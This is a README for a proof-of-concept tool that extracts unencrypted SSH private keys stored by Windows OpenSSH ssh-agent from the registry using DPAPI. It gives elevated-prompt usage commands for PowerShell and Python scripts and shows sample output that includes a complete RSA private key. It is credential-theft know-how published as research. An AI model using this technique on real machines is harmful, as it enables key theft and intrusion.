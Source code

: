# Intro
These scripts are a PoC for how to extract unencrypted private SSH keys from Windows when the new OpenSSH `ssh-agent.exe` is used.

When adding private keys to `ssh-agent`, Windows protects the private keys with DPAPI and stores them as registry entries under `HKCU:\Software\OpenSSH\Agent\Keys`

With elevated privileges, it is possible to pull out the binary blobs from the registry and unprotect them using DPAPI. These blobs can then be restructured into the original, unencrypted private RSA keys.

All credit for the Python code should go to the original implementatoin by soleblaze and his script `parse-mem.py` [here](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py)

# Usage
From an elevated Powershell prompt, use `extract_ssh_keys.ps1` to generate a JSON file which contains the Base64 data of the unprotected SSH keys. This script works by enumerating all SSH keys stored in the registry and calling DPAPI with the "Current User" context to unprotect the binary data.

```
C:\tools> .\extract_ssh_keys.ps1
Pulling key:  .\ropnopkey2
Pulling key:  .\ropnopkey1
extracted_keyblobs.json written. Use Python script to reconstruct private keys: python extractPrivateKeys.py extracted_keyblobs.json
```

The Python script requires Python 3 and the `pyasn1` package. Run the Python script on the saved JSON file to re-construct the original, uncnecrypted RSA private keys:

```
C:\tools> python .\extractPrivateKeys.py .\extracted_keyblobs.json
[+] Key Comment: .\ropnopkey2
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtekm5ikm0lh9fIiqslAUVUAhbI48/+khBFstx7jbz0XfcvAo
XS3wxeer7UeaIXRJAXARy4ARi6fk9W6PfdP3zKFd7D1MV1WG0FAogxWUXOxiYxgZ
yihsYNQ2NQmnVrW2C67+RZ2tTwNEEUGRVPi0QRjLlwXWPm6+0bFF4d0A7ivwTa0+
EYVow48E74v5BMOxW+h87ZassRvAO22vZXV7Tr/VnwM3GoLPXTSAUxVsO0nhDs07
JCXsu8oO7zH3Ql/I330QxAYo3qG0c/Ega3m474vVdIQOYdiaYxmN1u29wR9MAUNx
/fY9yOTc0+prwWVt5GqZ3y89d9PI1VJfqNa6LQIDAQABAoIBAQCLjycHtxSQldEY
BKWojWU8DipWZT2JO+rXs7gInNsORtXqETN2YTNyMY2mSaOG/PaxgrA0RrmvQgyW
+s5dQ4y90iMDhfeWnQgDsyuRfbHIJJZK3geTH7YeB1DbGd/m1xumFQgAkrqOfrvu
3TXJUdDAjGxNHe5DEaWVrIIniO0YyxMV10M2s2D6GtNHBjzop9YDegvkeQxNbO0K
tKcDhJ/QPrkT+J8yCnRpStYC+kNlbOlBKkmdTJ5nhtmlZ8mWqpIgocvKrOZavsAh
7SKpWt/Sjjoc+8wwt4dNiy8WnbHGFPb6W9lxdjDxpmoTn2bQOaS0oo61KJU7m60O
SdgQwtUBAoGBAOXhnKWe2wKN/sx+/PYEvh2bi5xtugcOufCTqFlTYpxsgG0717s2
1Ljwh7yjtTv6bS+6tXFrAy8QhKwLiuXnn8OAaPb9hMbpqGDhk04GcDWP/1oqS/2Y
gMfeoBF6P3+q969kFbZwMCj/zsOEXnwTJGN6bxHBKassslts3Lf8jVjtAoGBAMqU
QY0EebxJAQm3BgsQ0fsNli0CFGAm7iSlYmsSkcbcwZfL9hzxccKZDpZpXr2WV9wf
dqfUoQyowSbZEz5kcuEeRe4Ofzf0ADs0fdMYRg0fvZ9JUCsTq+ecj3U25vNeXW9F
kD7mYnEbY9lMkMvna4uthraxBQEZyyWjHsu2mP5BAoGBALukYFBUjeLU8zILSgKr
NmBGkjw62Mlf/OjiLl3Tkb+rVV1UprCbfiIDvFh/rLTromp+VhLhTfUB37nrphIp
8iAL1iIeKF6RZa7HEo1y9e7SvpXjxqmW7S+4iiIaDnDwpkLVSF/lzXn57NVtXA6d
NWu6CaWNbazazC+Secv464u1AoGAdK2tj75bK3JU8baD+Y2nk9UAgU3oVHU3xs2n
AQrCAesWagrk50i9gBrOBx4LnmDgm/1XR1U1qWftUCXJaq9KZ5UbLAEXjy+vjmou
ao5ZkqeMfRkp3pXG9nD7Q8TqgpQAdt13NnNVkdX3zanG4FqbW+kHZWRSAI9NrZDl
ZOn39sECgYBj6IPFbBxllysESiV6Tcvb98ffKjWBvL3MM4ENfzlH0fCNGNkVPDvn
ufMwjM3PqhUFXVBQHm0eMZDLLcLpLUxxIpiOdmLDk6XhAY+1Vc90OmDrCoADUxdg
Eq/hFJMNz4ZMio4KVd+BUVM2rt4zjq0tcxtOrMABdddCRBkuwhluSQ==
-----END RSA PRIVATE KEY-----
```
